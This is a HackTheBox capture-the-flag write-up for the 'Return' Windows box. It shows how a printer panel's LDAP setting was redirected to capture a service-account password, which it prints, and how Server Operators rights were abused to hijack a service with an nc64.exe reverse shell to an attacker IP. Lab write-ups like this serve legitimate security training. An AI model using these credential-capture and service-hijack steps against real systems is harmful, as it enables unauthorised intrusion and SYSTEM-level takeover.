








# Return -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Return (HackTheBox)
**Author:** dsec
**Date:** 2025-06-02

---

## TL;DR

### Printer admin panel leaked service account password by redirecting LDAP auth to attacker. Server Operators group membership allowed service binary hijack for SYSTEM.

---

## Target info

- Host: `10.129.89.59`
- Services discovered: `53/tcp`, `80/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `3268/tcp`, `3269/tcp`, `5985/tcp`, `9389/tcp`

---

## Enumeration

```bash
nmap 10.129.89.59 -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49674,49675,49676,49679,49697,58051 -sCV -vvv
```



Found a printer admin panel on port 80:





---

## Foothold

Changed the LDAP server IP to my tun0 IP and started a netcat listener on port 389:



Password captured: `1edFg43012!!`





Could also use Responder instead of netcat:



Make sure to check what's running on 389 and kill it before running Responder:

```bash
sudo lsof -i :389
sudo kill -9 <PID>
```

---

## Privilege escalation

```
whoami /groups
```



User was in `BUILTIN\Server Operators` which can start/stop services.

Uploaded `nc64.exe`, started listener, and hijacked a service:

```bash
sc.exe config VSS binpath="C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
```

Received SYSTEM shell.

---

## Lessons & takeaways

- Always check printer/device admin panels for LDAP config -- redirecting auth to your listener can capture credentials
- `Server Operators` group can modify service binaries, leading to trivial SYSTEM escalation
---
